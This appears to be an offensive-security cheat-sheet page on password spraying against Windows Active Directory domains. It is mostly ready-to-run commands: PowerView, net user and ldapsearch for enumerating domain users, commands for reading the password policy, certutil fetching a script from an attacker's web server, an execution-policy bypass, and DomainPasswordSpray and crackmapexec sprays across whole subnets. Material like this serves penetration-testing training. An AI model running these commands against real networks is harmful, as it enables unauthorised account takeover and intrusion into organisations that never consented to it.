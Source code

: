 # Password Sprayng

**ATT\&CK ID:** [T1110.003](https://attack.mitre.org/techniques/T1110/003/)



**Password spraying** is an attack technique in which an adversary attempts to compromise user accounts by trying to authenticate with a curated list of passwords that are either frequently used or likely to be used by their target.

Task to need to perform password spraying:

* Task 1: Identify all the **users in the domain**
* Task 2: **Initiate** the Password Spraying Attack
* Task 3: **Execution and Verification** of the Password Spraying Attack



## Users Enumeration

### PowerView Import & Enum

Lets use PowerView ps1 module to enumerate all domain users.&#x20;

Copy the script below in a .ps1 file on Kali and transfer file with web server to target machine.

```bash
# kali machine
nano PowerView.ps1

python3 -m http.server 80
```

```powershell
# target machine
cd C:\Temp
certutil -urlcache -f http://$IP:80/PowerView.ps1 PowerView.ps1

powershell -ep bypass

# upload the ps1 script
. .\PowerView.ps1
```

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

Run the PowerView command to domain users enumeration

```powershell
# run and save the output into a file 
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File users.txt
type users.txt # to print the output file 
```

***

Another powershell comand to enum domain users:

```powershell
net user /domain
```

### ldapseach (from linux)

The following command makes a request to LDAP to return an output file with all users in the domain.

{% code overflow="wrap" %}
```bash
ldapsearch -H ldap://<DC_IP> -D "user@domain.com" -w <password> -b "dc=domain,dc=com" "(objectClass=user)" | grep "sAMAccountName: " | awk -F'sAMAccountName: ' '{print $2}' > users.txt
```
{% endcode %}





## Get Password Policy

If you have some user credentials or a shell as a domain user you can **get the password policy with**:

### From linux

```bash
# from kali
crackmapexec ldap $IP -u 'user' -p 'password' --pass-pol

ldapsearch -H ldap://10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

### From windows

```powershell
# from Windows
net accounts

# from PowerView
Get-DomainPolicy
```

## Run Password Spray

### From Windows

#### DomainPasswordSpray.ps1

Copy this .ps1 script to a file on target machine and import it.

```powershell
cd \PATH\TO\DomainPasswordSpraying.ps1
. .\DomainPasswordSpraying.ps1
```

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

Execute this command to do password spray

<pre class="language-powershell"><code class="lang-powershell"><strong>Invoke-DomainPasswordSpray -UserList .\users.txt -Password $PASS -Verbose
</strong></code></pre>

***

```powershell
Invoke-SprayEmptyPassword
```

{% embed url="https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1" %}

### From Linux

#### CrackMapExec

<pre class="language-bash"><code class="lang-bash">crackmapexec smb &#x3C;IP> -u users.txt -p passwords.txt

# all the subnet
<strong>crackmapexec smb &#x3C;IP>/&#x3C;CIDR> -u users.txt -p passwords.txt
</strong></code></pre>













